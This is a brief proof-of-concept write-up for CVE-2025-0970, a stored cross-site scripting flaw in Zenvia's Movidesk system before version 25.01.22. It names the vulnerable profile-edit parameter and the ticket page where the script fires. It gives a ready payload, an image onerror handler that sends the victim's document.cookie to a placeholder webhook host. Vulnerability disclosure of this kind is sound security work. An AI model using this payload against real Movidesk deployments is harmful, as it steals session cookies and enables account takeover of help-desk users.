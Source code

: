 # CVE-2025-0970
The Movidesk System by Zenvia is vulnerable to Stored Cross Site Scripting.

**Affected Version: < 25.01.22**

**OBS: For this exploit, you must be authenticated!**


## POC

This vulnerability resides in the /Account/EditProfile page in Username parameter,
Its possible to manipulate the parameter to insert any JavaScript code to the victim browser.

Payload example: `<img src onerror="this.src='http://YOUR-WEBHOOK-SITE?c='+document.cookie">`.
Endpoint where the XSS is triggered (ticket view): `https://IP/Ticket`

https://IP/Account/EditProfile

---

## Reference

https://www.movidesk.com/
